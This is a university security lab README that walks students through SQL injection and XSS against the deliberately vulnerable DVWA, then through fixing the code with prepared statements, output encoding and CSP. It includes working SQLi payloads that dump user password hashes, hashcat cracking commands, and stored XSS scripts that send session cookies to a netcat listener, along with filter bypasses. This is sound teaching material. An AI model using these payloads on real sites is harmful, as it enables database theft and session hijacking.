

**Language:** English · [Hrvatski](README.hr.md)

<!-- kicker: Lab 04 · attack then defend · Information System Security -->
# Lab 04 — Web Attacks I: Injection & XSS

*The two oldest web attacks that still work today: dump a database through a search field, and steal a session through a comment box.*

`~90 min` · `Kali · DVWA · browser` · `level: intermediate` · `submit: Merlin`

> [!WARNING]
> **Ethics & scope.** Attack only the DVWA target in your lab environment. The same techniques against someone else's website are a criminal offence.

**Scenario.** Flicker's web app trusts user input. You're first the **attacker** who reads the whole database via SQL injection and steals a session via XSS, then the **developer** who fixes the code so the same input becomes harmless.

## Learning outcomes

- Perform SQL injection and extract data from a database.
- Perform reflected and stored XSS and steal a session cookie.
- Identify the root cause in vulnerable code (input concatenated into a query / unescaped output).
- Fix the vulnerability with a parameterized query and output encoding.

## Prerequisites

- [ ] [Lab 00](../lab-00-setup/README.md) completed — Kali + Docker working.
- [ ] [Lab 03](../lab-03-network/README.md) completed — the repository is cloned to `~/Information-System-Security`.
- [ ] HTTP and HTML basics; the idea of "session / cookie".
- [ ] Firefox developer tools (**F12**).

## Setup · ~10 min

You work in the same repository as in Lab 03. Update it, go into this lab's folder and stop the Lab 03 target — both labs use port 4280, so only one can run at a time:

```bash
cd ~/Information-System-Security && git pull
cd lab-04-web-injection
docker compose -f ../lab-03-network/compose.yml down
```

Start recording your work (required for the submission). Everything you type in this terminal is recorded until you press `Ctrl-D` at the end of the lab; after that, stop the target with `docker compose down`:

```bash
asciinema rec lab.cast
```

Bring up the target — the same **DVWA** as in Lab 03, a web app that is insecure on purpose:

```bash
docker compose up -d
```

Open `http://localhost:4280` in Firefox, log in with `admin` / `password`, click **Create / Reset Database** at the bottom of the setup page, then log in again. In the left menu open **DVWA Security**, choose **Low** and click **Submit**. The security level decides how well DVWA's own code defends itself: **Low** has no protection at all, **Medium** adds a naive filter (1.3), and **Impossible** is the correct fix (your reference in Part 2).

You'll also need the browser's developer tools: **right-click → Inspect** on any part of a page shows its HTML, and you can edit it live.

> [!TIP]
> **Common pitfall.** `port is already allocated` means the Lab 03 target is still running: run the `docker compose -f ../lab-03-network/compose.yml down` line again. `no configuration file provided` means you are not in `lab-04-web-injection`.

## Background — injection in one minute

A web app is constantly building sentences for some other machine to interpret — an SQL query for the database, an HTML page for the browser — by pasting your input into a template string. Injection happens when that input is mixed straight into the sentence: a single quote closes the query's string literal, so whatever follows is read as *SQL* instead of data, and a `<script>` tag is read as *markup*, so the browser runs it as code. The program then does what the attacker's characters say, not what the developer meant. **SQL injection** aims at the database — an always-true condition or a `UNION SELECT` turns one lookup into a dump of every user and password hash. **XSS** aims at other people's browsers — a stored comment or a reflected parameter carries a script that runs in the next visitor's session and can steal their cookie. Same root cause, two different sentences being hijacked.

The fix is the same idea both times: keep **data** and **code** apart so input can never cross the line into either. For SQL that means **parameterized (prepared) queries** — the query structure is fixed up front and your input is sent separately as a value, so a quote is just a quote. For HTML it means **output encoding / context-aware escaping** — `<` becomes `&lt;` at the moment of printing, so a script tag renders as visible text instead of executing. This is not a fringe bug: injection has sat at or near the top of the OWASP Top 10 for years, so central that cross-site scripting is now folded into the same category. And it scales — the Samy worm was a stored XSS that spread to over a million MySpace profiles in under a day, each infected profile re-serving the script to everyone who viewed it.



You play both sides: in Part 1 you break out of a query and out of a page, then in Part 2 you keep the exact same input inert — a prepared statement for SQL, output encoding for HTML.

## Part 1 — Offensive: injection & XSS · ~45 min

### 1.1 SQL injection — dump the database
**SQL injection** makes part of your input become SQL syntax. Open **SQL Injection** in the left menu and work through the attack in small steps:

1. Enter `1` in **User ID** and click **Submit**. This is the normal baseline: the app returns one user whose ID is 1.
2. Replace it with this payload and click **Submit**:

```text
1' OR '1'='1' #
```

The first `'` closes the value in `WHERE user_id = '<input>'`. `OR '1'='1'` is true for every row, while `#` starts a comment so the database ignores the closing quote added by the application.

> [!NOTE]
> **Expected.** Five user records appear instead of one. You have changed the meaning of the application's query.

3. Now replace the payload with this one and submit it:

```text
1' UNION SELECT user,password FROM users #
```

`UNION SELECT` appends results from a second query. The original page prints two columns, so the injected query also returns two: the username and password hash from every row of `users`.

> [!NOTE]
> **Expected.** The page includes usernames such as `admin` and 32-character hexadecimal password hashes.

4. Copy one hash without spaces into a file, then repeat the MD5 dictionary attack from [Lab 01](../lab-01-hashing/README.md). Replace `<HASH>` with the value you copied:

```bash
printf '%s\n' '<HASH>' > hash.txt
hashcat -m 0 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
hashcat -m 0 hash.txt --show
```

`-m 0` tells hashcat that the value is an MD5 hash, and `-a 0` tests each password from `rockyou.txt`. The `--show` line prints the result as `hash:password` after the attack finishes.

**In the report:** both SQL payloads, the extracted usernames and hashes, and the `hashcat --show` result for one cracked hash.

### 1.2 XSS — steal a session
**Cross-site scripting (XSS)** makes the browser treat input as JavaScript. First prove **reflected XSS**, where the application immediately returns your payload in the same response:

1. Open **XSS (Reflected)**, paste this payload into **What's your name?**, and click **Submit**:

```html
<script>alert(document.cookie)</script>
```

`document.cookie` is the JavaScript view of cookies available to this page. DVWA prints the input without encoding it, so the browser creates a real `<script>` element and runs it.

> [!NOTE]
> **Expected.** A Firefox alert shows `security=low` and a `PHPSESSID` value. Close the alert to continue.

Now prove **stored XSS**, where DVWA saves the payload in its guestbook and runs it whenever someone opens that page.

2. Open a second terminal and start **netcat** (`nc`) as a listener on TCP port 8000. Leave it running:

```bash
nc -lvnp 8000
```

The listener is a small server that waits for the browser's request and prints it. It does not need to return a web page.

3. Open **XSS (Stored)**. The HTML form limits **Name** to 10 characters and **Message** to 50, but that is only a browser-side `maxlength` rule. Right-click the **Message** field → **Inspect**, double-click `maxlength="50"` in the highlighted `<textarea>` and change it to `200`.
4. Enter `<ID>` in **Name**, paste this payload into **Message**, replace `<ID>` with your student ID, and click **Sign Guestbook**:

```html
<script>fetch('http://127.0.0.1:8000/?id=<ID>&c='+encodeURIComponent(document.cookie))</script>
```

When the guestbook reloads, the stored script runs in Firefox and sends the cookie to `nc`. `encodeURIComponent` makes the cookie safe to place in a URL. Here `127.0.0.1` is correct: Firefox and the listener both run on the same Kali machine; the DVWA container does not make this request.

> [!NOTE]
> **Expected.** The `nc` terminal shows an HTTP `GET /?id=<ID>&c=...` request containing your ID and URL-encoded cookie fields such as `security%3Dlow` and `PHPSESSID%3D...`.

> [!TIP]
> **Common pitfall.** No request at `nc`? Check that the listener was already running, the security level is still **Low**, and the guestbook page reloaded after **Sign Guestbook**. Press `Ctrl-C` to stop an old listener before starting it again.

5. After taking the screenshot, press `Ctrl-C` in the `nc` terminal. Netcat prints the request but does not send an HTTP response, so that first connection may otherwise stay open.

**In the report:** a reflected XSS printing the cookie (screenshot) and a stored XSS sending it to your `nc` (screenshot with your ID visible).

### 1.3 Raise the bar
Medium adds filters, but each one protects only the exact pattern its developer expected. Test all three cases:

1. Open **DVWA Security**, choose **Medium**, click **Submit**, then return to **SQL Injection**. The text field is now a dropdown and the form sends its value with HTTP POST.
2. Right-click the dropdown → **Inspect**. In the highlighted `<select>`, find an option such as `<option value="1">1</option>`, double-click its `value`, and change it to `1 OR 1=1`. Return to the page, select the edited option and click **Submit**.

Medium escapes quote characters, but this query places the ID into SQL without quotes. The numeric payload needs no quote, and changing the HTML proves that a server cannot trust a dropdown: a client can send any POST value.

> [!NOTE]
> **Expected.** All five users appear again even though the page offered only IDs 1–5.

3. Open **XSS (Reflected)** and submit this mixed-case payload:

```html
<ScRiPt>alert(document.cookie)</ScRiPt>
```

The Medium filter removes only the exact lowercase text `<script>`. HTML tag names are case-insensitive, so Firefox still recognises `<ScRiPt>` as a script element.

4. Make sure the earlier `nc` listener is stopped. Open **XSS (Stored)**, click **Clear Guestbook** and confirm the prompt; this removes the Low payload so it cannot be mistaken for a Medium bypass. Start a fresh listener with `nc -lvnp 8000`. Then right-click **Name** → **Inspect** and change `maxlength="10"` to `200`. Put `Medium <ID>` in **Message** and this mixed-case payload in **Name**, again replacing `<ID>`:

```html
<ScRiPt>fetch('//127.0.0.1:8000/?id=M<ID>&c='+encodeURIComponent(document.cookie))</ScRiPt>
```

The leading `//` reuses the page's HTTP protocol and keeps the payload short. The `M` before your ID marks this as the Medium test. The Medium Stored filter removes all tags from **Message**, but checks **Name** only for the exact lowercase `<script>` string. The mixed-case tag survives that blacklist and the browser executes it.

> [!NOTE]
> **Expected.** The reflected payload opens an alert with `security=medium`; the stored payload produces a new request at `nc` containing `id=M<ID>`, `security%3Dmedium` and `PHPSESSID%3D...`.

> [!TIP]
> **Common pitfall.** Editing `maxlength` changes only the current page. If you reload before submitting, repeat the edit. For SQL injection, select the option whose `value` you changed before clicking **Submit**.

Medium has not removed the vulnerability; it has only blacklisted a few strings. Case changes and a different input field bypass those assumptions. Part 2 fixes the boundary itself so the same input remains data.

**In the report:** screenshots of the Medium SQLi result and both Medium XSS results, plus 3–5 sentences explaining what each filter tried to block and why the bypass worked.

## Part 2 — Defensive: fix the code · ~30 min

### 2.1 Find the root cause
At the bottom right of each module click **View Source**, then **Compare All Levels**. In the **Low** code, point to the exact line where input is **concatenated into the SQL query** (SQL Injection: the line that builds `$query`) and where it is **printed without encoding** into HTML (XSS (Reflected): the line that adds `$_GET[ 'name' ]` to the page).

### 2.2 Fix it

Both fixes are the same move — put back the boundary between code and data that concatenation erased. A **parameterized query** ships the SQL and the values on separate channels, so the database treats your input as a value and never as syntax, whatever characters it holds. **Output encoding** escapes the dangerous characters (`<`, `>`, `&`, quotes) for the context they land in, so the browser shows them instead of acting on them; a **Content-Security-Policy** is the backstop that refuses to run injected inline script even if one slips through.

The **Impossible** level in *Compare All Levels* is DVWA's own correct version — use it as your reference: `prepare(…)` + `bindParam(…)` for SQL, `htmlspecialchars(…)` for HTML. Explain in your own words what each one changes.

**In the report:**
- **SQL:** the fixed query as a **parameterized / prepared statement** (snippet).
- **XSS:** output encoding/escaping of the user input (mention input validation and `Content-Security-Policy`).

### 2.3 Recommendations
3 concrete secure-development recommendations (parameterized queries everywhere, context-aware output encoding, CSP, least privilege for the DB user).

### Bonus
- Automate 1.1 with `sqlmap` (`-u` + the session cookie) and extract the table names.
- Define a minimal CSP header that would stop your stored XSS, and explain why.

## Submission

- `lab04_<ID>.pdf` — payloads, extracted data, XSS screenshot with your ID, fixed code snippets, write-up.
- An **[asciinema](https://asciinema.org/) recording** of your work (`asciinema rec lab.cast`, stop with `Ctrl-D`) — required; your ID in the XSS screenshot only shows whose work it is, this recording is the proof of work.

## Grading

| Item | Points |
|---|:-:|
| SQL injection (extracted data + cracked hash) | 3 |
| XSS (reflected + stored, cookie to listener) | 3 |
| Fixed code (parameterized query + encoding) | 3 |
| Medium level and recommendations | 1 |
| Bonus | +1 |
